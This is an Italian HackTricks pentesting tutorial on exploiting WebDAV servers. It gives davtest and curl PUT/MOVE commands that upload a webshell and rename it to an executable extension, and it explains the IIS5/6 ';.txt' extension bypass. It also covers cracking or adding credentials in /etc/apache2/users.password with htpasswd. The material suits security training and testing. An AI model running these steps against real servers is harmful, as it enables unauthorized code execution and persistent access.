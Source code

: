 # WebDav

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

\
Usa [**Trickest**](https://trickest.com/?utm_source=hacktricks\&utm_medium=text\&utm_campaign=ppc\&utm_content=put-method-webdav) per costruire e **automatizzare flussi di lavoro** alimentati dagli **strumenti comunitari più avanzati** al mondo.\
Ottieni accesso oggi:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=put-method-webdav" %}

{% hint style="success" %}
Impara e pratica il Hacking AWS:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica il Hacking GCP: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}

Quando si tratta di un **server HTTP con WebDav** abilitato, è possibile **manipolare file** se si dispone delle **credenziali** corrette, solitamente verificate tramite **HTTP Basic Authentication**. Ottenere il controllo su un tale server comporta spesso il **caricamento e l'esecuzione di un webshell**.

L'accesso al server WebDav richiede tipicamente **credenziali valide**, con il [**bruteforce WebDav**](../../generic-methodologies-and-resources/brute-force.md#http-basic-auth) che è un metodo comune per acquisirle.

Per superare le restrizioni sui caricamenti di file, specialmente quelle che impediscono l'esecuzione di script lato server, potresti:

* **Caricare** file con **estensioni eseguibili** direttamente se non sono vietati.
* **Rinominare** file non eseguibili caricati (come .txt) in un'estensione eseguibile.
* **Copiare** file non eseguibili caricati, cambiando la loro estensione in una che è eseguibile.

## DavTest

**Davtest** prova a **caricare diversi file con estensioni diverse** e **controlla** se l'estensione è **eseguita**:
```bash
davtest [-auth user:password] -move -sendbd auto -url http://<IP> #Uplaod .txt files and try to move it to other extensions
davtest [-auth user:password] -sendbd auto -url http://<IP> #Try to upload every extension
```
![](<../../.gitbook/assets/image (851).png>)

Questo non significa che **le estensioni .txt e .html vengano eseguite**. Questo significa che puoi **accedere a questi file** tramite il web.

## Cadaver

Puoi usare questo strumento per **connetterti al server WebDav** e eseguire azioni (come **caricare**, **spostare** o **eliminare**) **manualmente**.
```
cadaver <IP>
```
## Richiesta PUT
```
curl -T 'shell.txt' 'http://$ip'
```
## Richiesta MOVE
```
curl -X MOVE --header 'Destination:http://$ip/shell.php' 'http://$ip/shell.txt'
```
<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

\
Usa [**Trickest**](https://trickest.com/?utm_source=hacktricks\&utm_medium=text\&utm_campaign=ppc\&utm_content=put-method-webdav) per costruire e **automatizzare flussi di lavoro** facilmente, alimentati dagli **strumenti** della comunità **più avanzati** al mondo.\
Ottieni accesso oggi:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=put-method-webdav" %}

## Vulnerabilità IIS5/6 WebDav

Questa vulnerabilità è molto interessante. Il **WebDav** **non consente** di **caricare** o **rinominare** file con l'estensione **.asp**. Ma puoi **bypassare** questo **aggiungendo** alla fine del nome **";.txt"** e il file sarà **eseguito** come se fosse un file .asp (puoi anche **usare ".html" invece di ".txt"** ma **NON dimenticare il ";"**).

Poi puoi **caricare** la tua shell come un file ".**txt"** e **copiare/spostarlo in un file ".asp;.txt"**. Accedendo a quel file tramite il server web, esso sarà **eseguito** (cadaver dirà che l'azione di spostamento non ha funzionato, ma ha funzionato).

![](<../../.gitbook/assets/image (1092).png>)

## Credenziali post

Se il Webdav stava usando un server Apache, dovresti controllare i siti configurati in Apache. Comunemente:\
&#xNAN;_**/etc/apache2/sites-enabled/000-default**_

All'interno potresti trovare qualcosa come:
```
ServerAdmin webmaster@localhost
Alias /webdav /var/www/webdav
<Directory /var/www/webdav>
DAV On
AuthType Digest
AuthName "webdav"
AuthUserFile /etc/apache2/users.password
Require valid-user
```
Come puoi vedere, ci sono i file con le **credenziali** valide per il server **webdav**:
```
/etc/apache2/users.password
```
Dentro questo tipo di file troverai il **nome utente** e un **hash** della password. Queste sono le credenziali che il server webdav utilizza per autenticare gli utenti.

Puoi provare a **crackare** queste credenziali, o a **aggiungerne di più** se per qualche motivo vuoi **accedere** al server **webdav**:
```bash
htpasswd /etc/apache2/users.password <USERNAME> #You will be prompted for the password
```
Per verificare se le nuove credenziali funzionano, puoi fare:
```bash
wget --user <USERNAME> --ask-password http://domain/path/to/webdav/ -O - -q
```
## Riferimenti

* [https://vk9-sec.com/exploiting-webdav/](https://vk9-sec.com/exploiting-webdav/)

{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

\
Usa [**Trickest**](https://trickest.com/?utm_source=hacktricks\&utm_medium=text\&utm_campaign=ppc\&utm_content=put-method-webdav) per costruire e **automatizzare flussi di lavoro** alimentati dagli **strumenti comunitari più avanzati** al mondo.\
Ottieni accesso oggi:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=put-method-webdav" %}
